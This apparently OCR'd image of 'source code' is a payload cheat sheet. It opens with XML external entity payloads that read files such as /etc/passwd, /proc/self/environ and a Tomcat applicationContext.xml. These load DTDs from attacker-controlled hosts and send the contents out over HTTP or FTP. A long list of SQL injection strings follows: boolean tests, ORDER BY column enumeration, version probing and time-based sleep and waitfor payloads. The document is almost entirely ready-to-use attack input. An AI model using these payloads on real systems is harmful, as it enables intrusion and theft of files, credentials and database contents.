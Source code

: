 [  &lt;!ENTITY % start "&lt;![CDATA[">  &lt;!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml "> &lt;!ENTITY % end "]]>"> &lt;!ENTITY % dtd SYSTEM "http://evil/evil.xml"> %dtd; ]> &lt;root>&amp;all;&lt;/root>   ## External dtd: ##   &lt;!ENTITY all "%start;%stuff;%end;">  ------------------------------------------------------------------ File-not-found exception based extraction ------------------------------------------------------------------  &lt;?xml version="1.0" encoding="UTF-8"?> &lt;!DOCTYPE test [     &lt;!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >   %one;   %two;   %four; ]>  ## External dtd: ##  &lt;!ENTITY % three SYSTEM "file:///etc/passwd"> &lt;!ENTITY % two "&lt;!ENTITY % four SYSTEM 'file:///%three;'>">  -------------------------^ you might need to encode this % (depends on your target) as: &amp;#x25;  -------------- FTP -------------- &lt;?xml version="1.0" ?> &lt;!DOCTYPE a [  &lt;!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd"> %asd; %c; ]> &lt;a>&amp;rrr;&lt;/a>   ## External dtd ## &lt;!ENTITY % d SYSTEM "file:///proc/self/environ"> &lt;!ENTITY % c "&lt;!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">  --------------------------- Inside SOAP body --------------------------- &lt;soap:Body>&lt;foo>&lt;![CDATA[&lt;!DOCTYPE doc [&lt;!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]>&lt;xxx/>]]>&lt;/foo>&lt;/soap:Body>   --------------------------- Untested - WAF Bypass --------------------------- &lt;!DOCTYPE :. SYTEM "http://" &lt;!DOCTYPE :_-_: SYTEM "http://" &lt;!DOCTYPE {0xdfbf} SYSTEM "http://"   OR 1=1  OR 1=0  OR x=x  OR x=y  OR 1=1#  OR 1=0#  OR x=x#  OR x=y#  OR 1=1--   OR 1=0--   OR x=x--   OR x=y--   OR 3409=3409 AND ('pytW' LIKE 'pytW  OR 3409=3409 AND ('pytW' LIKE 'pytY  HAVING 1=1  HAVING 1=0  HAVING 1=1#  HAVING 1=0#  HAVING 1=1--   HAVING 1=0--   AND 1=1  AND 1=0  AND 1=1--   AND 1=0--   AND 1=1#  AND 1=0#  AND 1=1 AND '%'='  AND 1=0 AND '%'='  AND 1083=1083 AND (1427=1427  AND 7506=9091 AND (5913=5913  AND 1083=1083 AND ('1427=1427  AND 7506=9091 AND ('5913=5913  AND 7300=7300 AND 'pKlZ'='pKlZ  AND 7300=7300 AND 'pKlZ'='pKlY  AND 7300=7300 AND ('pKlZ'='pKlZ  AND 7300=7300 AND ('pKlZ'='pKlY  AS INJECTX WHERE 1=1 AND 1=1  AS INJECTX WHERE 1=1 AND 1=0  AS INJECTX WHERE 1=1 AND 1=1#  AS INJECTX WHERE 1=1 AND 1=0#  AS INJECTX WHERE 1=1 AND 1=1--  AS INJECTX WHERE 1=1 AND 1=0--  WHERE 1=1 AND 1=1  WHERE 1=1 AND 1=0  WHERE 1=1 AND 1=1#  WHERE 1=1 AND 1=0#  WHERE 1=1 AND 1=1--  WHERE 1=1 AND 1=0--  ORDER BY 1--   ORDER BY 2--   ORDER BY 3--   ORDER BY 4--   ORDER BY 5--   ORDER BY 6--   ORDER BY 7--   ORDER BY 8--   ORDER BY 9--   ORDER BY 10--   ORDER BY 11--   ORDER BY 12--   ORDER BY 13--   ORDER BY 14--   ORDER BY 15--   ORDER BY 16--   ORDER BY 17--   ORDER BY 18--   ORDER BY 19--   ORDER BY 20--   ORDER BY 21--   ORDER BY 22--   ORDER BY 23--   ORDER BY 24--   ORDER BY 25--   ORDER BY 26--   ORDER BY 27--   ORDER BY 28--   ORDER BY 29--   ORDER BY 30--   ORDER BY 31337--   ORDER BY 1#   ORDER BY 2#   ORDER BY 3#   ORDER BY 4#   ORDER BY 5#   ORDER BY 6#   ORDER BY 7#   ORDER BY 8#   ORDER BY 9#   ORDER BY 10#   ORDER BY 11#   ORDER BY 12#   ORDER BY 13#   ORDER BY 14#   ORDER BY 15#   ORDER BY 16#   ORDER BY 17#   ORDER BY 18#   ORDER BY 19#   ORDER BY 20#   ORDER BY 21#   ORDER BY 22#   ORDER BY 23#   ORDER BY 24#   ORDER BY 25#   ORDER BY 26#   ORDER BY 27#   ORDER BY 28#   ORDER BY 29#   ORDER BY 30#  ORDER BY 31337#  ORDER BY 1   ORDER BY 2   ORDER BY 3   ORDER BY 4   ORDER BY 5   ORDER BY 6   ORDER BY 7   ORDER BY 8   ORDER BY 9   ORDER BY 10   ORDER BY 11   ORDER BY 12   ORDER BY 13   ORDER BY 14   ORDER BY 15   ORDER BY 16   ORDER BY 17   ORDER BY 18   ORDER BY 19   ORDER BY 20   ORDER BY 21   ORDER BY 22   ORDER BY 23   ORDER BY 24   ORDER BY 25   ORDER BY 26   ORDER BY 27   ORDER BY 28   ORDER BY 29   ORDER BY 30   ORDER BY 31337   RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='  RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'=' IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl-- IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl-- %' AND 8310=8310 AND '%'=' %' AND 8310=8311 AND '%'='  and (select substring(@@version,1,1))='X'  and (select substring(@@version,1,1))='M'  and (select substring(@@version,2,1))='i'  and (select substring(@@version,2,1))='y'  and (select substring(@@version,3,1))='c'  and (select substring(@@version,3,1))='S'  and (select substring(@@version,3,1))='X' Generic Time Based SQL Injection Payloads # from wapiti sleep(5)# 1 or sleep(5)# " or sleep(5)# ' or sleep(5)# " or sleep(5)=" ' or sleep(5)=' 1) or sleep(5)# ") or sleep(5)=" ') or sleep(5)=' 1)) or sleep(5)# ")) or sleep(5)=" ')) or sleep(5)=' ;waitfor delay '0:0:5'-- );waitfor delay '0:0:5'-- ';waitfor delay '0:0:5'-- ";waitfor delay '0:0:5'-- ');waitfor delay '0:0:5'-- ");waitfor delay '0:0:5'-- ));waitfor delay '0:0:5'-- '));waitfor delay '0:0:5'-- "));waitfor delay '0:0:5'-- benchmark(10000000,MD5(1))# 1 or benchmark(10000000,MD5(1))# " or benchmark(10000000,MD5(1))# ' or benchmark(10000000,MD5(1))# 1) or benchmark(10000000,MD5(1))# ") or benchmark(10000000,MD5(1))# ') or benchmark(10000000,MD5(1))# 1)) or benchmark(10000000,MD5(1))# ")) or benchmark(10000000,MD5(1))# ')) or benchmark(10000000,MD5(1))# pg_sleep(5)-- 1 or pg_sleep(5)-- " or pg_sleep(5)-- ' or pg_sleep(5)-- 1) or pg_sleep(5)-- ") or pg_sleep(5)-- ') or pg_sleep(5)-- 1)) or pg_sleep(5)-- ")) or pg_sleep(5)-- ')) or pg_sleep(5)-- AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'=' AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP) AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)-- AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)# SLEEP(5)# SLEEP(5)-- SLEEP(5)=" SLEEP(5)=' or SLEEP(5) or SLEEP(5)# or SLEEP(5)-- or SLEEP(5)=" or SLEEP(5)=' waitfor delay '00:00:05' waitfor